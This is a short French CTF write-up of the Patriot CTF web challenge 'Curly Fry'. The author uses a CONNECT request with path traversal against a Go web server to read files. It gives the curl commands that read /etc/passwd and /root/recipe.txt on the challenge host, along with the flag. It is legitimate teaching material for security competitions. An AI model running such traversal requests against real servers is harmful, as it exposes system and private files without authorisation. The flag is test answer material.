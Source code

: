 # Patriot CTF

## Web

### Curly Fry

**Difficulté :** Facile

**Enoncé :** Qui a besoin de Flask quand vous avez Golang -- la nouvelle méta pour les applications web.

Jetez un coup d'oeil à ce site web super élégant et fonctionnel.

***

A la connexion sur cette URL, on tombe sur la page **index.hmtl** avec le code source suivant :

```html
<html>
  <head>
    <title>Curly Fry</title>
  </head>
  <body>
    <h2>I will release my secret curly fry recipe when I am ready. For now it is safely held in my /root directory</h2>
  </body>
</html>
```

On se doutes donc qu'il faut accéder à un fichier dans le répertoire **/root**.

Il existe un exploit qui permet d'accéder à des ressources non-autorisées grâce à une requête CONNECT sur des serveurs web en Golang.

J'essaye dans un premier temps d'accéder au fichier **/etc/passwd** via curl : `curl --path-as-is -X CONNECT chal2.pctf.competitivecyber.club:49515/../../..
/etc/passwd`

Via la requête, j'accède bien au fichier souhaité :

![image](https://user-images.githubusercontent.com/49941629/166076146-30bb3dff-12a2-4c41-b867-73f19eb2b62b.png)

Ceci dit, impossible d'exécuter une commande pour lister le contenu du répertoire /root.

Après relecture ducode source HTML, je découvre l'existence du fichier recipe.txt. 

Je relance donc ma commande curl avec le chemin complet et je récupère le contenu : `curl --path-as-is -X CONNECT chal2.pctf.competitivecyber.club:49515/../../../root/recipe.txt`

![image](https://user-images.githubusercontent.com/49941629/166076128-1acaa89b-ad4e-4c55-900e-5062165d01f0.png)

FLAG : PCTF{tru5t_m3_im_4_ch3f}
